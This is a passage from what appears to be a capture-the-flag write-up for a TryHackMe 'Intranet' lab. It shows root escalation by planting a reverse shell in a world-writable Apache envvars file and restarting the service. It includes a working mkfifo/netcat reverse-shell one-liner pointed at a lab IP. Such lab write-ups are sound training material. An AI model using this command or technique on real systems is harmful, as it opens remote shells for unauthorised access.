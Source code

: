 

<br /><br />

**Check the configurations files, you will see a file called `envvars` that has write permissions for other, So we can edit the file to get a shell**



![](/assets/img/thm/intranet/21.png)



<br /><br />



**add your reverse shell in the envvars file and Start the netcat listener and restart the apache2 service**

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.138.166 1337 >/tmp/f
```

**Get the root flag**

![](/assets/img/thm/intranet/22.png)

<br /><br />



----

### References

- https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-proc-self-environ
- https://medium.com/@omarwhadidi9/10-ways-to-get-rce-from-lfi-f2bb696b67f6
- https://github.com/Paradoxis/Flask-Unsign
